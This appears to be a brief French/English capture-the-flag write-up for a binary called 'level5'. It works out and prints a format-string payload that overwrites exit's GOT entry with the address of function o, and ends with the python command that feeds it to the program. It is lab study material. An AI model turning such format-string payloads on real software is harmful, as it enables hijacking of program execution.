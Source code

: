 adresse de O : 0x080484a4 --> \xa4\x84\x04\x08   
(HELLO Func : 080484cb --> \xcb\x84\x04\x08)

adresse de l'exit du GOT : 08049838 --> \x38\x98\x04\x08   
(080498ac --> \xac\x98\x04\x08)


Le but est de changer la valeur pointee par le exit du GOT par l'adresse de la fonction O


    \x38\x98\x04\x08\xae\x98\x04\x08%<val1>x%4$hn%<val2>x%5$hn

On veut ecrire l'adresse du O : 0x080484a4


- Low order bytes = 84a4 (33956 in decimal)
- High order bytes = 0804 (2052 in decimal)

However, the high order bytes is inferior to the low order so, we’ll write the high order first! We just need to invert the addresses where we want to write! Let’s do some math:


- High order bytes = 0804 (2052 in decimal). Minus the 8 bytes for the addresses = 2044 (7FC en hexa)
- Low order bytes = 84a4 (33956 in decimal). Minus the 2052 bytes we already wrote = 31904 (7CC7 en hexa)

son exploit : \xae\x98\x04\x08\xac\x98\x04\x08%2044x%4$hn%31943x%5$hn

Notre exploit :
\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn

(On mets deux fois l'adresse du exit, mais en premier on fait + 2 bytes a la fin de l'adresse)

Commande a lancer : 

> (python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"' ; cat -) | ./level5


# Sources : 

About the Code Execution Redirect exploit :

- https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect
